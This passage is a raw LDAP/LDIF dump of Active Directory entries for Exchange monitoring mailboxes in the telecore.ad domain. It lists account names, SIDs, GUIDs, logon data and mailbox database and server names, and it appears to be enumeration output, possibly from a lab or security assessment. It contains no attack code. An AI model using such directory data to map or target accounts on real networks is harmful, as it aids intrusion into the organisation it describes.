mail: HealthMailboxa1cc1051a2034b9cada57a2258a13900@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-003
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1760216688,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111232.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526921221051220342922325722258213900
msExchUMDtmfMap: lastNameFirstName:432584624526939778003
msExchUMDtmfMap: firstNameLastName:432584624526939778003
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxa1cc1051a2034b9cada57a2258a13900
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: JupJT6GCGUSgp8nfTc7zNQ==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: cH3gniXKYEefwDodB3vhLw==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349
distinguishedName: CN=HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111244.0Z
whenChanged: 20251126050219.0Z
displayName: HealthMailbox-Ex-Srv-004
uSNCreated: 96652
uSNChanged: 152909
proxyAddresses: SMTP:HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349@telecore.ad
proxyAddresses: SIP:HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349
objectGUID:: bgL9HD9S+0Su7JxrWykD2w==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086248845503976
pwdLastSet: 134086068858160193
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxahAQAAA==
accountExpires: 9223372036854775807
logonCount: 2183
sAMAccountName: HealthMailboxdbbbdc7
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=04e5016098f04eb49f8fe8aceafcd7c4-HealthMailb
userPrincipalName: HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086069396285219
mail: HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349@telecore.ad
homeMDB: CN=Mailbox Database 1761897377,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-004
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1761897377,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111243.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526932223272232941239832203229237349
msExchUMDtmfMap: lastNameFirstName:432584624526939778004
msExchUMDtmfMap: firstNameLastName:432584624526939778004
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxdbbbdc7bafc941ae98eb203cb9ce7349
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: 3yzM1+cNIUO5Q5P3P0lC2g==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: 032DVTGimU+amnaJO660Rg==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailbox4b8e41c1779346b08710db532c24c160, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox4b8e41c1779346b08710db532c24c160,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox4b8e41c1779346b08710db532c24c160
distinguishedName: CN=HealthMailbox4b8e41c1779346b08710db532c24c160,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111255.0Z
whenChanged: 20250912111306.0Z
displayName: HealthMailbox-Ex-Srv-005
uSNCreated: 96671
uSNChanged: 96687
proxyAddresses: SMTP:HealthMailbox4b8e41c1779346b08710db532c24c160@telecore.ad
proxyAddresses: SIP:HealthMailbox4b8e41c1779346b08710db532c24c160@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox4b8e41c1779346b08710db532c24c160
objectGUID:: wLyOJYewREaWgclEeYACcg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021491753163058
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxahQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailbox4b8e41c
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=25dc518db54a43c5830d154c3de68209-HealthMailb
userPrincipalName: HealthMailbox4b8e41c1779346b08710db532c24c160@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailbox4b8e41c1779346b08710db532c24c160@telecore.ad
homeMDB: CN=Mailbox Database 1371764866,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-005
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1371764866,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111255.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526942834121779346208710325322242160
msExchUMDtmfMap: lastNameFirstName:432584624526939778005
msExchUMDtmfMap: firstNameLastName:432584624526939778005
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox4b8e41c1779346b08710db532c24c160
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: j5ETWzrKJUC1NatGsEB7SQ==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: Xu/7K6w3JEa5Ba6ejzi/Ow==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailbox4f5c6c55792a407c836029a4e01421c9, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox4f5c6c55792a407c836029a4e01421c9,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox4f5c6c55792a407c836029a4e01421c9
distinguishedName: CN=HealthMailbox4f5c6c55792a407c836029a4e01421c9,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111306.0Z
whenChanged: 20250912111316.0Z
displayName: HealthMailbox-Ex-Srv-006
uSNCreated: 96682
uSNChanged: 96691
proxyAddresses: SMTP:HealthMailbox4f5c6c55792a407c836029a4e01421c9@telecore.ad
proxyAddresses: SIP:HealthMailbox4f5c6c55792a407c836029a4e01421c9@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox4f5c6c55792a407c836029a4e01421c9
objectGUID:: gdaA/FHbN0mDV9uwT5W3OQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021491862953219
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxahgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailbox4f5c6c5
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=81841d6be2984d358a59b008952797cb-HealthMailb
userPrincipalName: HealthMailbox4f5c6c55792a407c836029a4e01421c9@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailbox4f5c6c55792a407c836029a4e01421c9@telecore.ad
homeMDB: CN=Mailbox Database 1520821686,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-006
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1520821686,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111306.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526943526255792240728360292430142129
msExchUMDtmfMap: lastNameFirstName:432584624526939778006
msExchUMDtmfMap: firstNameLastName:432584624526939778006
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox4f5c6c55792a407c836029a4e01421c9
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: O5BKTtzRak23i16TkM01uw==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: ZzP+bCBEuE2SAeRawG0biQ==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxdee46001ea0841b1bc06444ac5013991, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxdee46001ea0841b1bc06444ac5013991,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxdee46001ea0841b1bc06444ac5013991
distinguishedName: CN=HealthMailboxdee46001ea0841b1bc06444ac5013991,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111317.0Z
whenChanged: 20250912111328.0Z
displayName: HealthMailbox-Ex-Srv-007
uSNCreated: 96697
uSNChanged: 96703
proxyAddresses: SMTP:HealthMailboxdee46001ea0841b1bc06444ac5013991@telecore.ad
proxyAddresses: SIP:HealthMailboxdee46001ea0841b1bc06444ac5013991@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxdee46001ea0841b1bc06444ac5013991
objectGUID:: fx/H6MSTK0allYvGSc61Rg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021491971916514
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxahwQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailboxdee4600
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=d7007f00749746e59ceee6bce9dc5f29-HealthMailb
userPrincipalName: HealthMailboxdee46001ea0841b1bc06444ac5013991@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailboxdee46001ea0841b1bc06444ac5013991@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-007
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1760216688,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111317.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526933346001320841212206444225013991
msExchUMDtmfMap: lastNameFirstName:432584624526939778007
msExchUMDtmfMap: firstNameLastName:432584624526939778007
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxdee46001ea0841b1bc06444ac5013991
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: AiwWB9OKIkiP+w5Q8t08eA==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: G8SwDLESD0a9OtXlHQAsEg==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0
distinguishedName: CN=HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111328.0Z
whenChanged: 20250912111339.0Z
displayName: HealthMailbox-Ex-Srv-008
uSNCreated: 96709
uSNChanged: 96725
proxyAddresses: SMTP:HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0@telecore.ad
proxyAddresses: SIP:HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0
objectGUID:: sQ1ilQeVsEi+ZoNdDb5+Og==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021492080789354
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaiAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailboxa2a6d4e
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=9fb40ccff651456b8890ef88858023f4-HealthMailb
userPrincipalName: HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0@telecore.ad
homeMDB: CN=Mailbox Database 1761897377,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-008
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1761897377,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111327.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526922263432248342148734232623233930
msExchUMDtmfMap: lastNameFirstName:432584624526939778008
msExchUMDtmfMap: firstNameLastName:432584624526939778008
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxa2a6d4ec248f421487d4aec6a323d9f0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: tYQEnhLeRU+mNd3hpdEVdA==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: +4QYeYMRFU2FzRG2D2lGTQ==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxb35a921b75dd4231bdc55df36fd84e92, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxb35a921b75dd4231bdc55df36fd84e92,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxb35a921b75dd4231bdc55df36fd84e92
distinguishedName: CN=HealthMailboxb35a921b75dd4231bdc55df36fd84e92,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111338.0Z
whenChanged: 20250912111350.0Z
displayName: HealthMailbox-Ex-Srv-009
uSNCreated: 96720
uSNChanged: 96737
proxyAddresses: SMTP:HealthMailboxb35a921b75dd4231bdc55df36fd84e92@telecore.ad
proxyAddresses: SIP:HealthMailboxb35a921b75dd4231bdc55df36fd84e92@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxb35a921b75dd4231bdc55df36fd84e92
objectGUID:: yvOLQDUcoke7ncrMO7MHKw==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021492189548627
